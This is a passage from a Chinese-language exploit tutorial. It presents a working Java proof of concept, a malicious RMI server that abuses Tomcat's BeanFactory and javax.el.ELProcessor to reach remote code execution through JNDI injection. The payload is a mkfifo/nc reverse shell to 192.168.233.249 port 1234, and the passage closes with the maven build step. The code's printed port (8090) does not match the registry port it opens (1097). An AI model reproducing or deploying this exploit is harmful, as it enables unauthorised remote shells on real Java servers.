 

而 ELProcessor.eval() 会对 EL 表达式（这里为反弹 shell）进行求值，最终达到 RCE
的效果。

下面为编写的java代码漏洞利用poc，指定了反弹shell的ip地址和端口及其开启rmi服务的端口

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 8090");//RMI服务地址为8090
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.233.249 1234 >/tmp/f']).start()\")"));
         //反弹shell地址为192.168.233.249，端口为1234
        
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}

```



使用maven对java代码进行编译打包

```
命令:mvn clean install
```

打包成功

![](media/d4957a0c50e626f62d06f5fc2853ddbb.png)
